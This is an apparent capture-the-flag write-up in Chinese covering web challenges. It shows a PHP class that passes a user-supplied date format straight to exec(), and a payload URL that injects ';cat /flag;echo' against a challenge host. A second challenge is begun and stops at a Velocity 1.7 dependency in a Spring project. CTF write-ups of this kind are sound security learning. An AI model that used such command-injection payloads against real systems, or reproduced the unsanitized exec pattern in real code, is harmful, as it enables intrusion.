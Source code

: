 > Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.
> 你准备好揭开 KROP 数字领域中的谜团，揭露隐藏的真相了吗？加入挑战，证明你在网络安全领域的实力。记住，时间就是金钱，但在这个情况下，回报可能远比你想象的要大得多。

就是代码审计

漏洞点在于对于传入参数没有处理，最后到了危险函数执行中去

![image-20250830223528608](https://raw.githubusercontent.com/bx33661/Picgo/main/20250830230245130.png)

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

最终Payload如下

```
http://94.237.50.221:31205/?format=%H:%M:%S%27;cat%20/flag;echo%20%27
```

得到flag



### Labyrinth Linguist 迷宫语言学家

> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.
> 你和你的阵营被困在一个迷宫内的避难走廊中，同时被 KORP 变异清除者追击。在计划下一步行动时，你们发现了一个由之前的 Fray 竞争者留下的翻译设备，它用于将英语翻译成伏斯利特语，这是一种由最初建造迷宫的文明所使用的古老语言。众所周知，伏斯利特语也曾是迷宫守护者的语言，他们原本是善良的，但后来被 KORP 设计的一种腐蚀性物质所改变，从而转而对抗人类。你需要逆向工程这个设备，以便与变异体取得联系，并抓住你最后的机会活下来。

代码审计，先判断一下是一个spring 项目,重点在于

```xml
<dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
</dependency>
```
